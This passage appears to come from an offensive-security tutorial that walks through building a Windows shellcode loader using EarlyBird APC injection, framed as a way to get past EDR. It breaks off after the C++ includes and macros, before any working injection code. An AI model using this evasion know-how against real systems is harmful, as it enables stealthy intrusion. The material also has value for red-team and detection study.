 Now we need a way to execute our payload on target systems. This is where our custom loader comes in. The loader implements the EarlyBird injection technique, which is particularly effective because it injects code before the target process fully initializes.

### Understanding EarlyBird Injection

EarlyBird injection is a process injection technique that takes advantage of the Windows process creation workflow. Here's how it works:

1. **Create Suspended Process**: We create a new process in a suspended state using the `CREATE_SUSPENDED` flag.
2. **Allocate Memory**: While the process is suspended, we allocate memory in its address space.
3. **Write Payload**: We write our shellcode to the allocated memory.
4. **Queue APC**: We use `QueueUserAPC` to queue an Asynchronous Procedure Call that points to our shellcode.
5. **Resume Process**: When we resume the process, the APC executes our code before the main thread starts.

The beauty of this technique is timing. Most EDR solutions monitor process creation and memory allocation, but EarlyBird happens during the natural process initialization phase, making it much harder to detect.

### The Complete Loader Implementation

Let me walk through the actual loader code and explain exactly how it works. This is a well-crafted C++ application that implements EarlyBird injection with multiple evasion techniques:

```cpp
#include <Windows.h>
#include <winternl.h>
#include <winhttp.h>
#include <iostream>
#include <vector>
#include <random>
#include <thread>
#include <chrono>
#include <string>
#include <array>
#include <intrin.h>
#include <sstream>
#include <iomanip>
#include <TlHelp32.h>
#include <ktmw32.h>
#include <map>

#pragma comment(lib, "winhttp.lib")
#pragma comment(lib, "ntdll.lib")
#pragma comment(lib, "ktmw32.lib")
#pragma comment(lib, "advapi32.lib")
#pragma comment(lib, "user32.lib")

#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#define LOG(msg) std::cout << "[+] " << msg << std::endl
#define LOG_ERROR(msg) std::cerr << "[-] " << msg << std::endl
#define LOG_WARNING(msg) std::cout << "[!] " << msg << std::endl
```
